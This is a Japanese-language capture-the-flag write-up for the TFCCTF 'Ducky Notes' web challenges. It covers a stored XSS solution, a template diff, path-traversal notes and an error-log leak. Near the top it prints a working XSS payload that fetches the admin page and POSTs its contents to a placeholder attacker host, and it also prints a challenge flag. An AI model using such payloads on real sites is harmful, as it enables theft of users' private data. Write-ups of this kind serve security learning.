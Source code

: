 以下のようなスクリプトを埋め込んで、レポート機能を使うと、FLAGを取得できる。

```html
<script>fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(text => {fetch('https://<attacker>/', {method:"POST",body:text})})</script>
```

- FLAG

```text
TFCCTF{Ev3ry_duCk_kn0w5_xSs!}
```

## WEB/DUCKY NOTES: PART 3

447 points / 24 solves

競技中は解けなかった問題。  
[WEB/BABY DUCKY NOTES: REVENGE](#webbaby-ducky-notes-revenge)の続き。  
コード差分は以下の通りで、contentでのXSSができなくなっている。

- 差分

```text
diff -r ducky_notes_2/src/templates/posts.html ducky_notes_3/src/templates/posts.html
6c6
<     <title>Baby Ducky Notes: Revenge!</title>
---
>     <title>Ducky Notes: Part 3!</title>
33c33
<                   <p> {{post.get('content') | safe}} </p>
---
>                   <p> {{post.get('content')}} </p>
```

以下途中までわかったこと。

<s>XSSはできそうなさそう。</s>/posts画面でXSSができたらしい。  
そもそも、この続きの問題[WEB/DUCKY NOTES: ENDGAME](#webducky-notes-endgame)とのソースコード差分でXSSの対策が入っていることが分かっていたので、XSSをもっと疑うべきだったと反省。

ユーザ名に`..\`が入れられるため、部分的なパストラバーサルはできるため、これを利用すると、`admin`のみ利用できる`/posts/`にアクセスさせることができる。  
ユーザ名は`re.compile('^[A-za-z0-9\.]{2,}$')`でチェックされているため、他にできそうなことは思いつかなかった。

Exceptionが起こせればフラグがエラーログに書き出されるっぽく、エラーが出力されるログファイルには外部からアクセスできることも分かった。  

- /static/logs/2023-07-28 14:10:17.txt

```text
"2023-07-28 14:10:17" admin <REDACTED>
```

ただし、FLAGをエラーログに出力させるには、以下の箇所でExceptionを発生させる必要がある。

```py:routes.py
frontend_posts = []
posts = db_get_all_users_posts()

for post in posts:
    try:
        frontend_posts += [{'username': post['username'], 
                            'title': post['title'], 
                            'content': post['content']}]
    except:
        raise Exception(post)

return render_template('posts.html', posts=frontend_posts)
```

